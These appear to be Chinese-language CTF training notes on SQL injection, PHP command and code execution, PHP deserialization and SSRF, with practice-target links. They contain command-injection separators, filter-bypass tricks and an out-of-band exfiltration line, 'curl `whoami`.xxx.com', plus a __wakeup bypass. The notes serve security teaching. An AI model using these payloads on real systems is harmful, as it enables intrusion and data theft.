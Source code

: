 ### sql注入原理与进阶
知识点-对应练习:
- 万能密码  http://139.224.43.82:49154/index.php
- 常规sql注入-sqli-labs前俩关
- 报错注入-sqli-labs第五关 [[培训/报错注入]]
- 盲注(布尔盲注,时间盲注) [[培训/盲注脚本]] [[培训/[CISCN 2019华北Day2]Web1]] nssctf
- 堆叠注入-[[培训/强网杯 2019随便注]]
总结:sql语句拼接导致,预编译可直接阻止,但是预编译在order by存在时无法使用,此时只能过滤

练习:sqli-lab靶场
http://ip/sqli-labs/
[[通关流程]]
真题复现:


### php代码执行与命令执行
总结:
命令执行:
```
system()，passthru()，exec()，pcntl_exec()，shell_exec()，popen()/proc_popen()，反引号 ``
```
代码执行:
```
eval()，assert()，call_user_func()，create_function()，array_map()，call_user_func_array()，array_filter()，uasort()，preg_replace()
```
只要上述函数里的变量可控,即有可能存在漏洞

命令执行
```python
; ` & || | $()
#换行
%0A
#回车
%0d
#局部变量
a=l;b=s;$a$b
#curl 外带
curl `whoami`.xxx.com
```

关键词过滤
```python
ca\t fl\ag

```
练习:dvwa

真题复现:
[UUCTF 2022 新生赛]ez_rce [[培训/[UUCTF 2022 新生赛]ez_rce]]
[GXYCTF 2019]Ping Ping Ping nssctf [[培训/pingpingping]]
ctfshow命令执行大挑战
ciscn 2023 dumpit
sekaictf 2023 Scanner Service

### php反序列化综合
序列化示例代码
```php
<?php 
    class test
    {
        private $flag = "flag{233}";
        public $a = "aaa";
        static $b = "bbb";
    }

    $test = new test;
    $data = serialize($test);
    echo $data;
 ?>

```

键:数量:值

反序列化代码
```php
<?php 
    $str = 'O%3A4%3A%22test%22%3A2%3A%7Bs%3A10%3A%22%00test%00flag%22%3Bs%3A9%3A%22flag%7B233%7D%22%3Bs%3A1%3A%22a%22%3Bs%3A3%3A%22aaa%22%3B%7D';
    $data = urldecode($str);
    $obj = unserialize($data);

    var_dump($obj);
 ?>
```


练习:
[SWPUCTF 2021 新生赛]ez_unserialize

魔术方法
```php
__construct()//创建对象时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发
...
```

练习: 
http://139.224.43.82:49156/

http://36.152.17.3:40024/


#### 进阶:
绕过__wakeup():
> 利用条件：
PHP5 < 5.6.25
​PHP7 < 7.0.10

当序列化字符串中表示对象属性个数的数字值大于真实类中属性的个数时就会跳过__wakeup的执行，
[[[SWPUCTF 2021 新生赛]no_wakeup]]


php反序列化字符串逃逸:

pop:
[[培训/[SWPUCTF 2021 新生赛]pop]]
[[培训/[NISACTF 2022]popchains]]
[[培训/[GDOUCTF 2023]反方向的钟]]
### ssrf(Server Side Request Forgery)服务端请求伪造
练习靶场
http://110.40.154.212/06/vul/ssrf/ssrf.php
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
真题:
[[培训/[NISACTF 2022]easyssrf]]
[[培训/[HNCTF 2022 WEEK2]ez_ssrf]]
[[培训/ctfshow351-360]]

http://username:password@localhost
